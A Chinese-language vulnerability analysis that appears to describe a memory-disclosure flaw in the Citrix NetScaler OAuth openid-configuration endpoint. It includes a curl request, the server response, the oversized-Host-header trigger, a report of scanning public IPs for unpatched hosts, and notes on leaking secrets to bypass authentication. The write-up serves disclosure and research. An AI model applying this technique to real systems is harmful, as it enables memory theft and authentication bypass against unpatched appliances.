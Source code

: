 ![]()![]()

向上追溯调用栈，`ns_aaa_oauth_send_openid_config`被
`ns_vpn_process_unauthenticated_request`调用，将
`ns_vpn_process_unauthenticated_request` 代码给AI分析调用到该函数的路径，可知调用路径为
`/oauth/idp/.well-known/openid-configuration`![]()

此处猜测未修复版本中会使用snprintf的返回值作为长度参数进行读取。curl请求该接口，可以看到响应中会把我们请求的host放进去

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    $ curl -i -s -k -X $'GET'     -H $'Host: curl.test.site' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: zh-CN,en-US;q=0.7,en;q=0.3' -H $'Accept-Encoding: gzip, deflate' -H $'Upgrade-Insecure-Requests: 1' -H $'Sec-Fetch-Dest: document' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-Site: none' -H $'Sec-Fetch-User: ?1' -H $'Te: trailers' -H $'Connection: close'     -b $'NSC_TASS=/menu/neo'     $'https://192.168.52.234/oauth/idp/.well-known/openid-configuration'  
    HTTP/1.1 200 OKX-Content-Type-Options: nosniffX-XSS-Protection: 1; mode=blockContent-Length: 717Cache-control: no-cache, no-store, must-revalidatePragma: no-cacheContent-Type: application/json; charset=utf-8X-Citrix-Application: Receiver for Web  
    {"issuer": "https://curl.test.site", "authorization_endpoint": "https://curl.test.site/oauth/idp/login", "token_endpoint": "https://curl.test.site/oauth/idp/token", "jwks_uri": "https://curl.test.site/oauth/idp/certs", "response_types_supported": ["code", "token", "id_token"], "id_token_signing_alg_values_supported": ["RS256"], "end_session_endpoint": "https://curl.test.site/oauth/idp/logout", "frontchannel_logout_supported": true, "scopes_supported": ["openid", "ctxs_cc"], "claims_supported": ["sub", "iss", "aud", "exp", "iat", "auth_time", "acr", "amr", "email", "given_name", "family_name", "nickname"], "userinfo_endpoint": "https://curl.test.site/oauth/idp/userinfo", "subject_types_supported": ["public"]}

  

前面知道print_temp_rule大小为0x20000，返回值中共有6处重复了host，所以我们传入的host长度>21845(粗略估计)就可以触发溢出。再次请求，发现可以利用超长host读取到Citrix内存，实际测试发现host长度最多到24100左右。

![]()

借助这个漏洞，写了一个nuclei模板对公网扫描，对八百个独立IP扫描，截止至10.20，仍然有大约15%未修复，且通过这个漏洞可以读取到内存中的secret，后续可以借助这个secret绕过身份验证，请求后端接口。

这个接口也在oauth的配置中有提到https://support.citrix.com/article/CTX234873/how-to-deploy-
netscaler-as-both-oauth-sp-and-idp

![]()

ns_aaa_oauthrp_send_openid_config函数类似，也对snprintf的返回值做了判断。![]()

 **调试**

关闭看门狗对nsppe进程发送的信号，而后直接在对应位置处下断点即可。

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    root@citrix3# nspf helpUsage: '/netscaler/nspf ((<process_name> | <pid>) <action> | query)'  where <process_name> is one of:    NSPPE-00      aslearn       awsconfig     bgpd          de    imi           isisd         metricscollectomonuploadd    nsaaad    nsaggregatord nscfsyncd     nsclfsyncd    nsclusterd    nsconfigd    nscopo        nsfsyncd      nsgslbautosyncnslcd         nslped    nsm           nsnetsvc      nsrised       nstraceaggregatnsumond    ospf6d        ospfd         ptpd          ripd          ripngd    snmpd         syshealthd  
      
